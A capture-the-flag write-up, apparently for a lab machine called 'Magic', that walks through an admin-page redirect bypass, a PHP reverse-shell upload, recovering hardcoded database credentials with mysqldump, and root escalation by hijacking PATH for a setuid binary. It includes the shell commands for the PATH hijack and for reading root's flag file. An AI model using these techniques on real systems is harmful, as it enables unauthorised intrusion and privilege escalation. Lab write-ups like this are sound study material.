

## TL;DR

HTTP redirect bypass (unintended 😁), PHP code execution through file upload to get a reverse shell. User with hardcoded SQL credentials on server, privesc with custom binary with no `$PATH` check.

> As I am an idiot, I reinstalled my distribution without making a backup of my files 🙈
> So I don't have any screenshot or payloads I used for this box to show you

## Footholds

With a basic `nmap` we found only two ports: 22 and 80.

The running web server seems to be a portfolio, we can also note a login page for the administrator.

## Entry point

### Admin page

I thought it would be great to access this admin page, but I did not found any valid credentials to log myself in. What I did instead was:

1. Use BurpSuite to intercept my requests to the `/admin` page
2. Change the `302 -> /login` redirection code to `200 -> /admin` on response
3. Now got access to the page without login-in

Of course after reading other solutions, this one was really unintented, the 'normal' way was to make an SQL injection in the login form.

### File upload

Now that we are on the admin page, we can upload some pictures in order to display them on the homepage. The first thing that came to my mind was to upload a PHP reverse shell:



If we upload it and visit it we got our nice reverse shell working!

## User

We are in the machine, but need to privesc as a user. Looking in the server's directory I found an intersting `db.php5` file:

```php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';
```

We try to log as the mentioned user with the given password. It does not works. Maybe it is some valid SQL credentials? I also found a `mysqldump` binary on the system, which -- pay attention -- dumps a given MySQL schema.

```bash
$ mysqldumps -u theseus -p iamthekingtheseus --all-databases
```

We then get a new password: `admin:Th3s3usW4sK1ng`. Maybe this one is the user's password? We can log-in with `theseus:Th3s3usW4sK1ng`!

## Root

We now need to get as `root`!

By looking into `/bin/` we get an interesting binary `sysinfo` running with `UID=0` 😇

This binary basically fetches information on the system and outputs it on stdout.

Here, the vulnerability is: the binary executes some commands (such as `lswh -short`, `lsblk -l`...) without an absolute path to them. We can easilly create our own `lswh` binary and change our `$PATH` to trick this program to execute our code as `root` (`UID=0`)!

This is what I did:

```bash
$ cd /tmp
$ mkdir .ninja && cd .ninja
$ echo 'echo $(whoami)' > lshw
$ chmod +x lshw
$ export PATH=/tmp/.ninja:$PATH
$ sysinfo

[...]
====================Hardware Info====================
root    # <-- our code execution!
=====================================================
[...]
```

By now we only have to cat `/root/root.txt`, or create ourselves a reverse shell, add our SSH key to the box, or anything!

```bash
$ echo 'cat /root/root.txt' > lshw
$ sysinfo

[...]
====================Hardware Info====================
[/root/root.txt hash here 😀]
=====================================================
[...]
```

Sorry for this bad writeup, I lost all my files, payloads and notes but I tryied my best.


